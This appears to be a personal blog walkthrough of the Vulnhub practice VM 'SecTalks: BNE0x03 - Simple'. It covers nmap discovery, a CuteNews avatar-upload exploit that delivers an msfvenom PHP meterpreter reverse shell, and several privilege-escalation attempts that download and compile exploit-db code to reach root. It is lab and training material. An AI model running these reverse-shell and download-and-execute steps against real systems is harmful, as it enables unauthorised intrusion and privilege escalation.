 Title:Vulnhub SecTalks: BNE0x03 - Simple
Date: 05-11-2016 19:55
category:security
tags:msfvenom, security, vulnhub, metasploit, boot2root, linux
meta:msfvenom, security, vulnhub, metasploit, boot2root, linux

<img class="align-left"
src="/media/2016.05/simple1.png" alt="Simple homepage" width="162">

As droopy was not really hard and doesn't contain as much web vulnerability as I
would hope for, I tried an other VM
[SecTalks: BNE0x03 - Simple](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/)
There were also hints on the description of the machine but with my resolution
they do not appear when just browsing the main page of vulnhub so I have not
spoiled myself with the hints this time.

<!-- PELICAN_END_SUMMARY -->

## Discovery

Let's nmap the box to get some knowledge about it:

    root@kalili:~# nmap 10.0.2.5 -p0-65535

    Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-11 15:42 CEST
    Nmap scan report for 10.0.2.5
    Host is up (0.00032s latency).
    Not shown: 65535 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 08:00:27:60:21:5C (Oracle VirtualBox virtual NIC)

    Nmap done: 1 IP address (1 host up) scanned in 2.60 seconds

There seems once more that only the port 80 with a HTTP service is available.

## Web

We go to the website. We notice that it is powered by CuteNews 2.0.3 (look at
the footer). We search on internet for vulnerability and found
[one](https://www.exploit-db.com/exploits/37474/).
This vulnerability allow the execute PHP code by uploading a malicious avatar.

![Simple homepage](/media/2016.05/simple1.png)

We create an account in order to upload our avatar.

![Simple account page](/media/2016.05/simple2.png)

We generate a PHP meterpreter using `msfvenom`:

    msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -e php/base64 -f raw > /tmp/shell.php

We prepare our metasploit for the callback:

    msf > use exploit/multi/handler
    msf exploit(handler) > set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 10.0.2.5
    LHOST => 10.0.2.5
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444
    msf exploit(handler) > exploit
    [*] Started reverse handler on 10.0.2.5:4444
    [*] Starting the payload handler...

We upload our msfvenom's payload as our avatar.

We go to `http://10.0.2.5/uploads/avatar_john_shell.php` and we got our
meterpreter!
Let's see what this box is made of:

    uname -a
    Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux

Once more an Ubuntu 14.04, like the droopy from yesterday.

## Privileges escalation

### CVE-2015-1328 exploiting overlayFS

Let us try once again to exploit the CVE-2015-1328 exploiting overlayFS to get
a root shell on the machine. I started a shell from the meterpreter, download
the exploit, compile it, run it and failed it:

    meterpreter > shell
    Process 1335 created.
    Channel 3 created.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    wget https://www.exploit-db.com/download/37292
    --2016-05-11 09:59:52--  https://www.exploit-db.com/download/37292
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5123 (5.0K) [application/txt]
    Saving to: '37292'

        0K .....                                                 100%  409M=0s

    2016-05-11 09:59:53 (409 MB/s) - '37292' saved [5123/5123]

    mv 37292 ofs.c
    gcc ofs.c -o ofs
    ls
    avatar_john_shell.php
    ofs
    ofs.c
    chmod +x ofs
    ./ofs
    spawning threads
    mount #1
    mount #2
    child threads done
    exploit failed

When searching for exploit regarding linux 3.16.0 I found the CVE-2014-5207:

### CVE-2014-5207 Fuse-based exploit

[CVE-2014-5207 Fuse-based exploit](https://www.exploit-db.com/exploits/34923/).
I download the exploit, compiled it and once more failed it:

    :::text
    gcc -Wall fuse_suid.c `pkg-config fuse --cflags --libs` -o fuse_suid
    /bin/sh: 1: pkg-config: not found
    fuse_suid.c:21:18: fatal error: fuse.h: No such file or directory
    #include <fuse.h>
                      ^
    compilation terminated

When searching for `ubuntu 14.04 privilege escalation exploit` I found two
interesting exploits :
 * CVE-2015-3643
 * CVE-2015-1318 + CVE-2015-1862

### CVE-2015-3643

[The CVE-2015-3643](https://www.exploit-db.com/exploits/36820/) exploit the
D-Bus listening on com.ubuntu.USBCreator.
I try this exploit but the module was not available and failed:

    dbus-send --print-reply --system --dest=com.ubuntu.USBCreator /com/ubuntu/USBCreator com.ubuntu.USBCreator.KVMTest string:/dev/sda dict:string:string:DISPLAY,"foo",XAUTHORITY,"foo",LD_PRELOAD,"/tmp/test.so"
    Error org.freedesktop.DBus.Error.ServiceUnknown: The name com.ubuntu.USBCreator was not provided by any .service files

### CVE-2015-1318 + CVE-2015-1862

[The CVE-2015-1318 + CVE-2015-1862](https://www.exploit-db.com/exploits/36746/)
exploit a feature in ubuntu 14.04 allowing a user to forward crash reports
([more informations here](http://exploiterz.blogspot.fr/2015/04/2015-cve-1318-leading-to-privilege.html)).
I download the exploit, compiled it with `-static` and run it to get a root
shell on the box:

    meterpreter > shell
    Process 1550 created.
    Channel 9 created.
    cd /tmp/
    wget https://www.exploit-db.com/download/36746
    --2016-05-11 11:22:39--  https://www.exploit-db.com/download/36746
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5216 (5.1K) [application/txt]
    Saving to: '36746'

        0K .....                                                 100%  337M=0s

    2016-05-11 11:22:43 (337 MB/s) - '36746' saved [5216/5216]

    mv 36746 newpid.c
    gcc -static newpid.c
    newpid.c:17:3: warning: #warning this file must be compiled with -static [-Wcpp]
    # warning this file must be compiled with -static
      ^
    ./a.out
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
    id
    uid=0(root) gid=33(www-data) groups=0(root),33(www-data)

## Conclusion

We just need to get our hands on the flag to finish it.

    cat /root/flag.txt
    U wyn teh Interwebs!!1eleven11!!1!
    Hack the planet

It was a nice box with still not so much web exploitation and only one exploit
to launch to get to root.
Thanks to [Robert Winkel](https://twitter.com/@RobertWinkel) for the box and as
always to Vulnhub for their work.
